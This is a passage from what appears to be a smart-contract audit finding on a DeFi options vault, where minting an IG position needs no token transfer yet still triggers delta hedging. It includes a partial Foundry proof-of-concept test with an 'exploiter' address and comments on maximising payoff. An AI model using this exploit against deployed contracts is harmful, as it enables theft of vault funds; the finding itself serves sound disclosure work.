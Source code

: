 Additionally, when such free mint occurs it brings the underlying vault into an unbalanced position because delta hedging is executed even though no tokens were transferred to the vault. 

## Code Snippet

To replicate the problem, add the following test function to the `test/IG.t.sol` file. All of the required changes are already contained within the test function.

```solidity
function test_IG_deposit_withdrawal_exploit_and_vault_imbalance() public {
    // No need to provide any tokens to the exploiter, since we will artificially increase the IG positions without any actual
    // balance transfers.

    address exploiter = vm.addr(123456789);

    // 1. Mint IG position
    uint256 amountUp = 5e2;
    uint256 currentEpoch = ig.getEpoch().current;
    uint256 currentStrikPrice = ig.currentStrike();
    {
        uint256 vaultBalanceBeforeMint = ERC20(baseToken).balanceOf(address(vault));
        uint256 exploiterBalanceBeforeMint = ERC20(baseToken).balanceOf(exploiter);

        // Mint
        vm.prank(exploiter);
        ig.mint(exploiter, 0, amountUp, 0, 0, 0, 0);

        // BUG 1:
        // Vault balance after mint increases even though no actual balance transfer has happened
        // The increase happens because of _deltaHedgePosition() call.
        uint256 vaultBalanceAfterMint = ERC20(baseToken).balanceOf(address(vault));

        // BUG 2:
        // Exploiter balance doesn't change, but the IG position is increased for free
        uint256 exploiterBalanceAfterMint = ERC20(baseToken).balanceOf(exploiter);
        (uint256 amountMint, bool strategyMint, uint256 strikeMint, uint256 epochMint) = ig.positions(Position.getID(exploiter, currentStrikPrice));

        console2.log("---------------------------------------------------------");
        console2.log("MINT");
        console2.log("Vault balance BEFORE: ", vaultBalanceBeforeMint);
        console2.log("Vault balance AFTER: ", vaultBalanceAfterMint);

        console2.log("Exploiter balance BEFORE: ", exploiterBalanceBeforeMint);
        console2.log("Exploiter balance AFTER: ", exploiterBalanceAfterMint);

        console2.log("Exploiter position amount: ", amountMint);
        console2.log("Exploiter position strategy: ", strategyMint);
        console2.log("Exploiter position strike: ", strikeMint);
        console2.log("Exploiter position epoch: ", epochMint);
    }

    // 2. Roll epoch and update oracle price
    // We are assuming oracle price increased during epoch, so the CALL IG position has earned some payoff.
    //
    // To maximize gains the exploiter will try to guess if sideToken price will increase or decrease during the next epoch,
    // and position accordingly (if price will appreciate it makes sense to buy CALL option, otherwise PUT).
    // If he guesses correctly he will earn double the amount.
    // If he plays safe and positions 50:50, he will earn reward only for the correct position.
    //
```